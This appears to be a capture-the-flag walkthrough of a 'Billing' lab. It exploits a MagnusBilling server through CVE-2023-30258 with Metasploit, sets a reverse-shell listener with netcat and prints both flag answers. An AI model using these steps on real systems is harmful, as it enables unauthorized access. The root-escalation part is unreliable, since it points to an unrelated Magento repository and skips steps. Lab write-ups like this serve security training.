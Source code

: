 # Billing
Billing systems are critical tools used by businesses to manage invoicing, payment processing, and financial record-keeping. They ensure accurate and efficient transactions between service providers and customers, handling tasks such as generating invoices, tracking payments, and managing taxes and discounts. Common in industries like telecommunications, e-commerce, and healthcare, billing systems also support various payment methods for customer convenience.

In terms of security, these systems are prime targets for cyberattacks due to the sensitive financial data they store. Protecting billing systems from vulnerabilities is essential to prevent data breaches, fraud, and loss of customer trust.

Gain a shell, find the way and escalate your privileges!
Footprinting
<nmap -sV -sC -T4 <your machine ip>>

When we try to go to the web site with a browser, the only thing we see is a login page.
Given the note in the room description about avoiding bruteforcing, we can check for common credentials, but they don’t work.
After a short search, we see that it seems like an open-source VoIP billing and management system for managing SIP trunks, VoIP calls, and customer billing. It provides tools for call routing, monitoring, and invoicing.

Shell As asteriskus
This has an unauthenticated remote command execution vulnerability CVE-2023-30258, which is available as a manual exploit but is also present in the Metasploit framework.

We set up the exploit in the Metasploit framework and give it a try.
STEPS: 1. msfconsole
2. use exploit/Linux/http/magnusbilling_unauth_rce_cve_2023_30258
3. show targets
4. set target 1
5 .set lhost <your attack box ip>
6. set rhosts <your machine ip>
7. exploit

here session 1 is opened

command 1) id
2) cat /home/*/user.txt
flag 1 : What is user.txt?

ans: THM{4a6831d5f124b25eefb1e92e0f0da4ca}

Now find root flag
firstly download ( mangus_rce.py ) https://github.com/Hackhoven/Magento-RCE
“Run nc -lvnp 1337 in another terminal."

This is a command to start a netcat listener on port 1337

“Here is our root flag.”

THM{33ad5b530e71a172648f424ec23fae60}



